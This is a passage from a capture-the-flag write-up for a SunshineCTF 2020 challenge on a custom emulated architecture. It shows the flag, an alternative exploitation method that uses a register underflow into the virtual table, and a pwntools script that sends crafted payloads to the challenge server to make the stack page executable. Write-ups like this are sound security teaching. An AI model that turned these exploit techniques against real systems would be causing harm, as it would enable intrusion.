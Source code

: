 ```python
p.close()
print "Enjoy your flag:",flag
```

### Flag

`sun{wh47_4_ju1cy_4rch1t3c7ur3_4_pwn1ng!}`

### Notes and Second method

While the above code is better optimized, in my original exploit I failed to realize that the stack was located at page 0x11 and overwrote it with 0xfa, meaning I had to go through a bunch more work to actually write shellcode to the stack, best part is I got really confused when my stack instantly became all 0's after the overwrite and never thought a second about it. 

Second as I had mentioned earlier, my exploit became convoluted and there was a much easier approach sitting right in front of me the entire time.

```
014A.0000: PSH     RV, {R3-R7}
014E.0000: POP     {PC-DPC}
```

The instruction I partially used to set the zero flag was actually a push into the RV register, which at most cases would be equal to zero. Upon the pushes RV underflows into 0xfff0, meaning we have an instant write straight into the virtual table, allowing us to jump to our shellcode much easier, or put shellcode into the 0xff00 page, below is an example of overwriting the 0xff page executable page to point to our stack address where our shellcode will still sit. From this method you get 10 bytes to write to at 0xfff6:

```
$ hexdump R 0xfff6 10
fff6: ffff ffff ffff ffff ffff                 ..........
```

With the second most byte needing to be 0xff if you want to execute there, leaving you with around 7 bytes of shellcode, which could be a bit tight, and if you went in one attempt you would need to have shellcode that is only above 0x80, which I couldn't get anything working with the read and write primatives.

But here is a script that will change the 0xff page to point to the stack making it executable at address 0xff00 instead of 0xfa00

```
from pwn import *
import time

context.log_level = 'error'

p = remote('chal.2020.sunshinectf.org',10004)

exploit1 = "ABCD" + '\xff'*4 + '\x11\x11' + '\xff'*4 +'\x4a\x01\x00\x00' +'\xe4\xff\x00\x00'+'\xf8\x2f\xf9\x02\xf5\xf9\xff' 
exploit = 'a'*64 +'\x8f'

#get official bytes into the stack
for x in range(21):
    print x
    time.sleep(.1)
    p.sendline(exploit1[:len(exploit1)-x])
    p.sendlineafter('ABCD',exploit)
    #p.interactive()
    time.sleep(.1)

exploit = '\xff'*64 + '\x80\x01' #start the Ropish chain
p.sendline('ABCD')
p.sendlineafter('ABCD',exploit)
```